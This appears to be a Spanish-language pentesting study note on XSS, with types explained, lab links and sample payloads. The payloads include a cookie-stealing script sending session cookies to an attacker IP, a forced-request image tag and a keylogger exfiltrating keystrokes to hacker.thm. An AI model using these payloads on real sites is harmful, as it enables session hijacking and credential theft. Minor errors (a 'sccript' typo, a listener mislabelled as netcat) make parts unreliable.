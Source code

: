 ## Cross-Site Scripting (XSS)

Una vulnerabilidad XSS (Cross-Site Scripting) es un tipo de vulnerabilidad de seguridad informática que permite a un atacante ejecutar código malicioso en un sitio web. 
un ataque XSS implica la inserción de código malicioso en una página web vulnerable, que luego se ejecuta en el navegador del usuario que accede a dicha página.  
Existen varios tipos de vulnerabilidades XSS, incluyendo las siguientes:  
* Reflejado (Reflected): Este tipo de XSS se produce cuando los datos proporcionados por el usuario se reflejan en la respuesta HTTP sin ser verificados adecuadamente. Esto permite a un atacante inyectar código malicioso en la respuesta, que luego se ejecuta en el navegador del usuario.
* Almacenado (Stored): Este tipo de XSS se produce cuando un atacante es capaz de almacenar código malicioso en una base de datos o en el servidor web que aloja una página web vulnerable. Este código se ejecuta cada vez que se carga la página.
* DOM-Based: Este tipo de XSS se produce cuando el código malicioso se ejecuta en el navegador del usuario a través del DOM (Modelo de Objetos del Documento). Esto se produce cuando el código JavaScript en una página web modifica el DOM en una forma que es vulnerable a la inyección de código malicioso.

**Proyecto Github con docker vulnerable a XSS** <a href="https://github.com/globocom/secDevLabs">secDevLabs</a>  
**Maquina MyExpense** <a href="https://www.vulnhub.com/entry/myexpense-1,405/">MyExpense machine (Vulnhub)</a>

#### Comprobar si es vulnerable
En un campo de texto, por ejemplo para enviar un post, comentario, etc. escribimos:  
```
<sccript>alert('Prueba XSS')</script>

En ocastiones no es necesario las etiquetas <script>, o incluso es necesario no ponerlas para que funcione
```

### Cookie stealing
Se puede poner netcat a la escucha:  
```
python3 -m http.server 80
```

E inyectar el siguiente código:  
```
<script>img = new Image(); img.src = "http://IP_ATACANTE/a.php?"+document.cookie;</script>
```

En la ventana del terminal donde tengamos netcat a la escucha, aparecerá la cookie de sesión cuando algún usuario entre a esa página a consultar los mensajes por ejemplo.  
Para utilizarla:  Ctrl+Shift+I (inspeccionar) -->Application -->Cookies y cambiamos la cookie de sesión por la capturada, luego recargamos y ya estamos dentro.

### Mandar a una dirección

En una máquina fue útil cuando quisimos que un usuario logueado fuese a una dirección sin que supiese, que lo que hacía era activar una cuenta de usuario.
```
igual que el anterior, pero el codigo:
<script>document.write('<img src="URL A DONDE QUIERAS DIRIGIR"/>');</script>
```
### Keylogger

``` <script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script> ```

